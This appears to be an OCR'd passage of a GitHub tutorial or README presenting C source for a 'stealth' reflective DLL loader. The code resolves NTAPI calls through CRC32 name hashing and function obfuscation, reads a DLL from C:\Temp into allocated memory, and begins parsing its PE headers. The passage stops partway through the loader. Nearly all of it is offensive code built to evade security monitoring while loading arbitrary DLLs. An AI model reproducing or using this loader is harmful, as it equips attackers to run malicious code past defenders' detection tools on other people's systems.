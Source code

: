         UNICODE_STRING dll_file;
        WCHAR w_file_path[100] = L"\\??\\\\C:\\Temp\\dll_poc.dll";

        void *p_ntdll = get_ntdll();
        void *p_rtl_init_unicode_string = get_proc_address_by_hash(p_ntdll, RtlInitUnicodeString_CRC32b);
        RtlInitUnicodeString_t g_rtl_init_unicode_string = (RtlInitUnicodeString_t) p_rtl_init_unicode_string;

        g_rtl_init_unicode_string(&dll_file, w_file_path);

        OBJECT_ATTRIBUTES obj_attrs;
        IO_STATUS_BLOCK io_status_block;
        InitializeObjectAttributes(&obj_attrs, &dll_file, 0x00000040L, NULL, NULL);

        HANDLE h_file = NULL;

        void *p_nt_create_file = get_proc_address_by_hash(p_ntdll, NtCreateFile_CRC32b);
        NtCreateFile_t g_nt_create_file = (NtCreateFile_t) p_nt_create_file;

        if((status = g_nt_create_file(&h_file, SYNCHRONIZE | GENERIC_READ, &obj_attrs, &io_status_block, 0, 0x0000080, 0x0000007, FILE_OPEN_IF, 0x0000020, 0x0000000, 0)) != 0x0)
            return -1;

        FILE_STANDARD_INFORMATION file_standard_info;

        void *p_nt_query_information_file = get_proc_address_by_hash(p_ntdll, NtQueryInformationFile_CRC32b);
        NtQueryInformationFile_t g_nt_query_information_file = (NtQueryInformationFile_t) p_nt_query_information_file;
        if((status = g_nt_query_information_file(h_file, &io_status_block, &file_standard_info, sizeof(FILE_STANDARD_INFORMATION), FileStandardInformation)) != 0x0)
            return -2;

        unsigned long long int dll_size = file_standard_info.EndOfFile.QuadPart;
        void *dll_bytes = NULL;
        void *p_nt_allocate_virtual_memory = get_proc_address_by_hash(p_ntdll, NtAllocateVirtualMemory_CRC32b);
        NtAllocateVirtualMemory_t g_nt_allocate_virtual_memory = (NtAllocateVirtualMemory_t) p_nt_allocate_virtual_memory;
        if((status = g_nt_allocate_virtual_memory(((HANDLE) -1), &dll_bytes, 0, &dll_size, MEM_COMMIT, PAGE_READWRITE)) != 0x0)
            return -3;

        void *p_nt_read_file = get_proc_address_by_hash(p_ntdll, NtReadFile_CRC32b);
        NtReadFile_t g_nt_read_file = (NtReadFile_t)p_nt_read_file;

        if((status = g_nt_read_file(h_file, NULL, NULL, NULL, &io_status_block, dll_bytes, dll_size, 0, NULL)) != 0x0)
            return -4;
    ```
    this code is the same as the part 1 of our original loader but we have used the NTAPI functions with name hasing and function obfuscation
    - stealth Loader Part 2:
    ```c
        PIMAGE_DOS_HEADER dos_header = (PIMAGE_DOS_HEADER)dll_bytes;
        PIMAGE_NT_HEADERS nt_headers = (PIMAGE_NT_HEADERS)((unsigned long long int)dll_bytes + dos_header->e_lfanew);
        SIZE_T dll_image_size = nt_headers->OptionalHeader.SizeOfImage;
    ```
    - stealth Loader Part 3:
    ```c
        void *dll_base = NULL;
        if((status = g_nt_allocate_virtual_memory(((HANDLE) -1), &dll_base, 0, &dll_image_size, MEM_COMMIT, PAGE_READWRITE)) != 0x0)
            return -4;
